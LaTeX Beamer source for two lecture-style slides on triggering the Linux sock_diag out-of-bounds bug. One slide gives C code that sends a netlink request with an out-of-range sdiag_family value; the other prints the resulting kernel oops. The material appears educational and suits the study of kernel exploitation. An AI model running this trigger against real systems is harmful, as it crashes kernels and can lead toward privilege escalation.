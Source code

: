 \documentclass[xcolor=dvipsnames]{beamer}
\newcommand{\heading}[1]{\textbf{\textcolor{BurntOrange}{#1}}}
\newcommand{\code}[2][]{\lstinline[columns=fullflexible, basicstyle=\ttfamily,
	#1]$#2$}
\begin{document}
\begin{frame}[fragile]
  \frametitle{Hitting the Error}

\begin{block}{Recall the kernel side}
\begin{lstlisting}
static const struct sock_diag_handler *sock_diag_handlers[41];
...
  hndl = sock_diag_handlers[req->sdiag_family];
...
  err = hndl->dump(skb, nlh);
\end{lstlisting}
\end{block}\pause
\heading{Giving a special value for \code{req->sdiag_family}}
\begin{lstlisting}
  memset(&req, 0, sizeof(req));
  req.nlh.nlmsg_len = sizeof(req);
  req.nlh.nlmsg_type = SOCK_DIAG_BY_FAMILY;
  req.nlh.nlmsg_flags = NLM_F_ROOT|NLM_F_MATCH|NLM_F_REQUEST;
  req.nlh.nlmsg_seq = 123456;
\end{lstlisting}\vspace{-0.7\baselineskip}
\begin{uncoverenv}<2->
\begin{lstlisting}[backgroundcolor=\color{mygray}]
  req.r.sdiag_family = 120;
\end{lstlisting}
\end{uncoverenv}
\begin{lstlisting}
  if ((fd = socket(AF_NETLINK, SOCK_RAW, NETLINK_SOCK_DIAG)) < 0)
    return 1;

  if (send(fd, &req, sizeof(req), 0) < 0)
    return 1;
\end{lstlisting}

\end{frame}

\begin{frame}[fragile]
  \frametitle{Oops}

\begin{lstlisting}
BUG: unable to handle kernel paging request at (*@ \textbf{0000000100012a5c} @*)
IP: [<0000000100012a5c>] 0x100012a5c
...
Call Trace:
 [<ffffffff81439e66>] ? sock_diag_rcv_msg+0x76/0x130
 [<ffffffff81439df0>] ? sock_diag_unregister+0x50/0x50
 [<ffffffff81519145>] ? ftrace_graph_caller+0x85/0x85
 [<ffffffff81451659>] netlink_rcv_skb+0xa9/0xc0
 [<ffffffff81439d24>] ? sock_diag_rcv+0x24/0x40
 [<ffffffff81450c7a>] ? netlink_unicast+0xda/0x1b0
 [<ffffffff8145107c>] ? netlink_sendmsg+0x32c/0x750
 [<ffffffff8140eb6b>] ? sock_sendmsg+0x8b/0xc0
 [<ffffffff81186d3d>] ? __kmalloc+0x1cd/0x4a0
 [<ffffffff81412103>] ? sk_prot_alloc+0xb3/0x180
 [<ffffffff81186047>] ? kmem_cache_alloc_trace+0x207/0x450
 [<ffffffff8140ecd1>] ? SYSC_sendto+0xf1/0x180
 [<ffffffff811a06ae>] ? alloc_file+0x1e/0xf0
 [<ffffffff8140bcaf>] ? sock_alloc_file+0x9f/0x130
 [<ffffffff811ba6aa>] ? __fd_install+0x1a/0x40
 [<ffffffff815192a9>] ? system_call_fastpath+0x16/0x1b
\end{lstlisting}

\end{frame}
\end{document}
